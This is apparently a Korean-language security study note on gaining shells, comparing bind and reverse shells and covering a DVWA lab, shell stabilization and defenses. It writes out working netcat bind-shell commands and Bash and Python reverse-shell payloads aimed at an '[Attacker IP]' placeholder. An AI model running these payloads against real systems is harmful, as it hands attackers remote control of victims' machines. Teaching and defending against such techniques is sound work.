

## 1. 개요

**Shell (쉘)** 획득은 시스템 해킹의 최종 목표 중 하나로, 공격자가 대상 시스템에 명령을 내릴 수 있는 인터페이스를 확보하는 것을 의미한다.
쉘 연결 방식은 크게 **리버스 쉘(Reverse Shell)**과 **바인드 쉘(Bind Shell)**로 나뉘며, 네트워크 환경과 방화벽 설정에 따라 적절한 방식을 선택해야 공격 성공률을 높일 수 있다.

---

## 2. Bind Shell vs Reverse Shell 비교



| 구분 | Bind Shell | Reverse Shell |
|------|------------|---------------|
| **서버 역할** | 대상(Victim) | 공격자(Attacker) |
| **연결 방향** | 공격자 → 대상 | 대상 → 공격자 |
| **방화벽 우회** | ❌ 어려움 (Inbound 차단) | ✅ 쉬움 (Outbound 허용) |
| **실전 사용** | 거의 안 함 | 가장 많이 사용 |

---

## 3. 실습 환경

### 로컬 테스트
```bash
# 터미널 1 (공격자 역할)
nc -lvnp 4444

# 터미널 2 (대상 역할)
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

### Vulnerable Docker
```bash
docker run -it --rm vulnerables/web-dvwa
# Command Injection 취약점을 이용해 리버스 쉘 연결 실습
```

---

## 4. Bind Shell

대상 서버가 포트를 열고 공격자가 접속하는 방식이다.

**대상 서버에서 실행:**
```bash
nc -lvnp 4444 -e /bin/bash
```

**공격자가 접속:**
```bash
nc [Target IP] 4444
```

> **한계**: 대부분의 방화벽은 외부에서 내부로 들어오는 연결(Inbound)을 차단하므로, 실제 환경에서는 성공하기 어렵다.

---

## 5. Reverse Shell

공격자가 포트를 열고 대상 서버가 접속하는 방식이다.

> **공격 흐름**: 공격자가 리스너 실행 → 대상 서버에서 페이로드 실행 → 대상 → 공격자로 연결 → 쉘 획득

### 1단계: 공격자 리스너 설정
```bash
nc -lvnp 4444
```

### 2단계: 대상 서버에서 페이로드 실행

**Bash:**
```bash
bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1
```

**Python:**
```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

**참고**: [revshells.com](https://www.revshells.com/)에서 다양한 페이로드 생성 가능


---

## 6. Shell Stabilization (쉘 안정화)

처음 획득한 쉘은 `Tab` 자동 완성이나 `Ctrl+C`, 화살표 키가 동작하지 않는 불안정한 상태(Dumb Shell)이다.

### 1. TTY 쉘 생성
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 2. 터미널 제어권 확보
```bash
# Ctrl+Z 입력하여 백그라운드 전환
stty raw -echo; fg
# Enter 두 번 입력
```

### 3. 환경 변수 설정
```bash
export TERM=xterm
```

---

## 7. 방어 대책

### 아웃바운드 통제
*   **방화벽 설정**: 서버에서 불필요한 외부 연결(Outbound)을 차단하여 리버스 쉘 연결을 방지한다.
    ```bash
    iptables -A OUTPUT -p tcp --dport 4444 -j DROP
    ```

### 프로세스 모니터링
*   **비정상 쉘 실행 탐지**: 웹 서버 프로세스(`www-data`)가 `/bin/bash`를 실행하는 것을 탐지한다.
*   **EDR 솔루션**: 프로세스 트리 분석을 통해 이상 자식 프로세스를 탐지한다.

### 입력값 검증
*   **Command Injection 방지**: 사용자 입력에서 메타문자(`;`, `|`, `&`)를 필터링한다.

<hr class="short-rule">